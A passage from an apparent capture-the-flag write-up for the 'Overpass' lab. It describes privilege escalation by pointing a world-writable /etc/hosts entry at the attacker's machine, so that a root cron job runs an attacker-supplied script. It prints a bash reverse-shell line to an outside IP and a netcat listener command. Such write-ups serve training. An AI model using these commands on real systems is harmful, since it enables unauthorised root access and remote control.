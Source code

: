 ```

now we can execute linpeas using the following commands:

```bash linpeas.sh | tee linpeas.out```

### Exploiting Cron jobs

so linpeas has  enumerated the entire system we can see that we have a cron job which runs as root and can be exploited to escalate our privileges to the ***root*** user.

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/24.png)

so by viewing the host file on our target machine we can see that overpass.thm points to localhost, the host file an be edited by all users on the system.


![Markdown Logo](/home/d4rk5id3/Documents/Overpass/25.png)

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/26.png)

This means the /etc/hosts entries could be modified to point overpass.htm at the local Kali machine and make the cron job execute arbitrary Bash scripts as root.

![Markdown Logo](/home/d4rk5id3/Documents/Overpass/27.png)


now we can create and make use of a simple bash reverse shell to get a connection back to our local machine.


```
bash -i >& /dev/tcp/10.18.73.117/4242 0>&1

```


![Markdown Logo](/home/d4rk5id3/Documents/Overpass/28.png)

next we shall setup a netcat listener on our local machine. which would connect to our reverse shell once the cronjob runs.

```
nc -lnvp <listening port>

```




















```